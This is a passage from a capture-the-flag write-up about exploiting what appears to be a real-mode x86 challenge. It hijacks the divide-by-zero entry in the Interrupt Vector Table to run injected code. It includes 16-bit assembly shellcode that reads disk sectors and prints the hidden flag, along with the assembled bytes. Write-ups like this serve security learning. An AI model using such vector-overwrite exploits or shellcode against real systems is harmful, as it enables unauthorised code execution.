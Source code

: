 According to the [x86 Memory Map](https://wiki.osdev.org/Memory_Map_(x86)), the first 1KiB of data is dedicated for the [Interrupt Vector Table (IVT)](https://wiki.osdev.org/IVT).
The first 4 bytes in the IVT are decicated to the "Divide by 0" interrupt.
Like its name implies, the CPU will trigger this interrupt when it tries to divide by zero.
This is great for us, because we have access to a divide operator, and can overwrite this vector to jump anywhere in memory, including the tape which we can control.

So we can then exploit by performing a few simple steps:
1. Upload some shellcode into the tape at a fixed location.
2. Overwrite the divide-by-zero interrupt vector in the IVT to the shell code.
3. Trigger a divide-by-zero interrupt
4. Get Flag

## Shellcode

The following shell-code is used

```asm
BITS 16
ORG 100h
; store register values	
	push es
	push ax
	push cx
	push dx
	push bx

; read data from disk into 0x700
	mov ax, 0202h
	mov cx, 23h
	mov dx, 0h
	mov bx, 0h
    mov es, bx
    mov bx, 0700h
    int 13h

; call bios_video_puts with 0x900 as param
	mov bx, 900h
	push bx
	call 3edfh ;0x43df-0x61f+0x11f   wacky relative fn calling
	inc sp
	inc sp

; restore register values & return from interrupt
	pop bx
	pop dx
	pop cx
	pop ax
	pop es
	iret
```

This assembles into 39 bytes `0650515253b80202b92300ba0000bb00008ec3bb0007cd13bb000953e8c03d44445b5a595807cf`, and obtains the flag which is stored somewhere else in the disk image.
